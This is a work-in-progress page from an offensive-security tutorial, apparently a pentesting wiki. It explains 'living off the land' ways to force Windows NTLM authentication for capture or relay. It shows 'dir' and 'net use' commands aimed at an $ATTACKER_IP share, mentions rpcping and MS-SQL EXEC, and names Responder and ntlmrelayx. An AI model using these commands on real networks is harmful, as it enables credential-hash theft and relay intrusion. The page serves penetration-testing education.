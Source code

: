 ```yaml
---
authors: ShutdownRepo, joker2a, mpgn, nuts7, sckdev
---
```


# 🛠️ Living off the land

> [!WARNING]
> This is a work-in-progress. It's indicated with the 🛠️ emoji in the page name or in the category name

## Theory

> In the physical world, “living off the land” simply means to survive only by the resources that you can harvest from the natural land. There may be multiple reasons for doing this — perhaps you want to get “off the grid,” or maybe you have something or someone to hide from. Or maybe you just like the challenge of being self-sufficient.
>
> In the technology world, “living off the land” (LotL) refers to attacker behavior that uses tools or features that already exist in the target environment. ([source](https://logrhythm.com/blog/what-are-living-off-the-land-attacks/))

There are multiple "living off the land" techniques that can be used to force authentications, to capture hashes, or to relay authentications. In order to use those techniques, testers need to have an initial access to "the land", i.e. the tools or features the technique uses.

## Practice

Those techniques will usually generate outgoing traffic on SMB or HTTP, hence requiring the attacker to set up an SMB or HTTP server to [capture](../ntlm/capture.md) or [relay](../ntlm/relay.md) the authentication (e.g. using tools like [Responder](https://github.com/SpiderLabs/Responder) (Python), [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell), [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) or [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell)).

### Command execution

On Windows machines, cmdlets like `net` or `dir` can be used to make the machine access a remote resource, hence making it authenticate. This leads to an outgoing traffic using SMB.

```bash
dir \\$ATTACKER_IP\something
net use \\$ATTACKER_IP\something
```

The rpcping command can also be used to trigger an authentication. The perk of this technique is that the auth won't carry a signing negotiation flag, hence allowing for relays

### MS-SQL queries execution

On MS-SQL (Microsoft SQL) servers, the EXEC method can be used to access a remote SMB share. This leads to an outgoing traffic using SMB.
